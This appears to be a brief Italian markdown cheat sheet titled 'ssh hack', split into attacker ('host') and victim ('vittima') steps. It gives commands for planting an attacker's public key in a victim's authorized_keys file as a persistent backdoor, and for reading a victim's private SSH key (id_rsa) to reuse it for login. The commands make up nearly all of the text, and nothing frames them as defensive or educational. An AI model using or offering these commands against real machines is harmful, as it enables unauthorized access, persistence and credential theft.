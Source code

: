 # ssh hack

## aggiungere PUB_KEY 

host:
```
ssh-keygen -t rsa
export PUBLIC_KEY=$(cat <key.pub>)
```

vittima:
```
mkdir -p /home/<USER>/.ssh
echo $PUBLIC_KEY >> /home/<USER>/.ssh/authorized_keys
```
connettersi con `ssh -i key <host>@<ip>`

## furto della PRIV_KEY

vittima (copiare negli appunti):
```
cat /<USER>/.ssh/id_rsa
```

host (incollare `./priv_key`):
```
ssh -i priv_key <IP>
```

